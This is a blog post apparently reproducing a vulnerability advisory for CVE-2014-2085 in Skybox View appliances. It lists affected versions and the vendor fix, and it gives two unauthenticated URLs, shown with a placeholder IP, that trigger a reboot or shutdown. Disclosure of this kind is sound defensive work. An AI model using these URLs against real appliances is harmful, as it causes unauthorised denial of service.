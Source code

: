 ```yaml
---
title: "[CVE-2014-2085] - SKYBOX Security - DDOS"
date: 2014-05-10
author: Luigi Vezzoso
layout: post
tags: 
    - CVE
    - vulnerability
category: Essays
---
```


Exploit Title: [SKYBOX Security - DDOS]

Date: [22-Jan-2014]

Exploit Author: [Luigi Vezzoso]

Vendor Homepage: [http://www.skyboxsecurity.com]

Version: [Skybox View Appliances with ISO versions: 6.3.33-2.14, 6.3.31-2.14, 6.4.42-2.54, 6.4.45-2.56, 6.4.46-2.57]

Tested on: [Centos 6.4 kernel 2.6.32]

CVE : [CVE-2014-2085]

#OVERVIEW

A vulnerability has been found in some Skybox View Appliances’ Admin interfaces which would allow a potential malicious party to bypass the authentication mechanism and execute reboot and/or shutdown of appliance self

#INTRODUCTION

Skybox Security has a complete portfolio of security management tools that deliver the security intelligence needed to act fast to minimize risks and eliminate attack vectors.  Based on a powerful risk analytics platform that links data from vulnerability scanners, threat intelligence feeds, firewalls and other network infrastructure devices – Skybox gives you context to prioritize risks accurately and automatically, in minutes.

#VULNERABILITY DESCRIPTION

It's possible to open and execute the reboot and shutdown script without autentication at the following links:

https://1.1.1.1:444/scripts/commands/reboot?_=1111111111

https://1.1.1.1:444/scripts/commands/shutdown?_=1111111111

#VERSIONS AFFECTED

Skybox View Appliances with ISO versions: 6.3.33-2.14, 6.3.31-2.14, 6.4.42-2.54, 6.4.45-2.56, 6.4.46-2.57

#SOLUTION

Please refer to the vendor security advisor: Security Advisory 2014-3-25-1

#CREDITS

Luigi Vezzoso

email:  luigivezzoso@gmail.com

skype:  luigivezzoso